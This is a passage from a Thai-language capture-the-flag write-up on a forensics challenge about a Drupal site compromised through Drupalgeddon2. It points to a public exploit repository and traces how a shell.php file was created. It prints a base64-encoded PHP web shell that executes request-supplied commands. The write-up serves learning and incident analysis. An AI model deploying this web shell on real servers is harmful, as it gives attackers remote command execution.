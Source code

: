 แล้วผมก็ไปเจอ payload ที่ต้องการใน GitHub repo นี้ https://github.com/dreadlocked/Drupalgeddon2

![009e9bbcf298b2f7014a414d8d6b1e70.png](../_resources/009e9bbcf298b2f7014a414d8d6b1e70.png)

เอา payload มา encode ด้วย base64 แล้วส่งคำตอบก็จะได้คะแนนมาครับ

```
PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9
```

**สำหรับคนที่มองหา intended way, เชิญทางนี้ครับ

![97d1f8149a242c116ed2814b870b9f62.png](../_resources/97d1f8149a242c116ed2814b870b9f62.png)

ขั้นแรกเราต้องมองหาว่า `shell.php` ถูกสร้างมาตอนไหน ซึ่งตรงนั้นจะเห็นว่ามีการรัน `sh -c` ตามด้วย argument ที่เป็น hex ที่ `/var/www/html` แล้วหลังจากนั้นก็จะมีการรัน base64 decode แล้วสร้างไฟล์ `shell.php` ขึ้นมาด้วยการ pipe ด้วย `tee`

![8f7c0442d1a6291c5de921b3db81e6f7.png](../_resources/8f7c0442d1a6291c5de921b3db81e6f7.png)
